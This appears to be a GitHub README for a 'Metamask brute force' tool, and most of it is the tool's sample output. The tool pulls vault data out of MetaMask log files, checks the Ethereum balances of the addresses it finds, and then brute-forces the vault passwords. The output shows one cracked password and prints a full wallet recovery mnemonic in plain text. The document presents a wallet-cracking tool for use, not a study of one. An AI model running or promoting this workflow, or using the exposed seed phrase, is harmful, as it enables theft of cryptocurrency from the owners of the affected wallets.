 # Metamask brute force
"This program checks the balance of a MetaMask log file, extracts vault data, and brute-forces the vault data."
Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log
Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash
Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2
Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log
Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash
Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8
Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.
